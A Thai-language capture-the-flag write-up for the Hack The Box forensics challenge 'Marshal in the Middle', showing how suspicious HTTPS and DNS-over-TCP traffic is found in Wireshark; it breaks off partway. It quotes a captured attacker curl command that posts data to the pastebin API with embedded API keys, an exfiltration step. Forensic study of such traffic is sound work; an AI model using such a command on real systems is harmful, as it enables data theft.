 Hi, Can you speak Thai ?

Yes, I can speak Thai.

มา วันนี้เราจะมาทำข้อ Marshal in the Middle หมวด Forensics ระดับ Very easy

Step 1 เปิด wireshark

กดดาวน์โหลดไฟล์ใน hackthebox จากนั้นแตกไฟล์ เลือกไฟล์ที่มีชื่อว่า "chalcap" คลิก 2 ครั้งแล้วใส่รหัส (มีบอกใน hackthebox) ทีนี้ไฟล์ก็จะถูกเปิดใน wireshark

Step 2 จับผิด HTTP

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/8a570256-5024-4136-8906-95f0cd6fc542" />

เมื่อเปิดมา เราจะเห็น HTTP บางตัวที่มีคำขอรับข้อมูลแปลก ๆ 

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/352f5067-07ad-4ebc-8efc-bc9b71aaa86c" />

กดตรง "Hypertext Transfer Protocol" สังเกตจาก Host เราจะเห็นพอร์ตปลายทางคือ 443 แม้ว่านี่จะเป็น HTTP แต่ก็เป็น HTTPS

อธิบาย

- พอร์ต 80 คือ พอร์ตเริ่มต้นสำหรับโปรโตคอล HTTP (Hypertext Transfer Protocol) ใช้สำหรับการรับส่งข้อมูลเว็บที่ไม่ปลอดภัยผ่านอินเทอร์เน็ต

- พอร์ต 443 คือพอร์ตเริ่มต้นสำหรับ HTTPS (Hypertext Transfer Protocol Secure) ซึ่งใช้สำหรับการเชื่อมต่อที่ปลอดภัยและเข้ารหัสข้อมูลระหว่างเว็บเบราว์เซอร์และเว็บไซต์

แสดงว่ามีการเข้ารหัส ฉันเลือก HTTP อันที่น่าสงสัย แล้วคลิกขวา กด Follow เลือก HTTP Steam จากนั้นเลื่อนลงมานิดนึง จะพบเจอกับข้อความดังภาพที่ฉันแปะไว้ใต้ข้อความนี้

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/00be4ca0-b39a-4624-871a-f2479dd108ec" />

และใช่ มันถูกเข้ารหัส สิ่งเหล่านี้เราจะกลับมาสนใจในภายหลัง ไปทำ Step 3 ก่อน

Step 3 DNS

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/5a9ce95a-f018-4c65-b6cd-7902a3769eae" />

มาที่ Statistics เลือก Conversations และไปที่ TCP เราจะสังเกตเห็นชุดแพ็กเกจหนึ่งที่น่าสงสัยที่ในพอร์ตคือ 53 ภายใต้ TCP โดยทั่วไปจะเป็น DNS และ DNS มักจะใช้ UDP แต่ตอนนี้ DNS ใช้ TCP ดังนั้นการที่ DNS ใช้ TCP จึงค่อนข้างน่าสงสัย

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/e1f81194-242d-4c6d-84f0-a4e9b78437bd" />

คลิกขวา เลือก Apply as Filter จากนั้นเลือก Selected แล้วเลือก A ↔ B ในการทำเช่นนี้ เราจะสามารถเห็นแพ็กเกจ TCP ทั้งหมดที่กำลังถูกถ่ายโอนไปยังพอร์ต 53 ที่เราเลือกในการสนทนานั้น

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/f48d2be4-7eab-4822-86b3-c748e7c8a83b" />

คลิกขวาที่แพ็กเกจบนสุด กด Follow เลือก TCP Steam

<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/b936f662-108f-4fe9-b0cb-7c7f567bc96b" />

เราจะไปที่การส่งคำสั่งทั้งหมดจาก Linux กำลังถูกโอนย้ายข้ามสาย
```
curl -d "api_user_key=ed67c1aec48d47270dd002d0baa29814&api_dev_key=bb8aa307a7d4b6073976149b65977bae&api_paste_private=2&api_option=paste&api_paste_code=${pastetext}" 'https://pastebin.com/api/api_post.php
```
ถ้้าเราดูจากที่นี่จะสังเกตเห็นว่ามีคำขอ curl ถูกส่งออกไป และดูเหมือนว่าจะถูกส่งเป็นคำขอ POST 

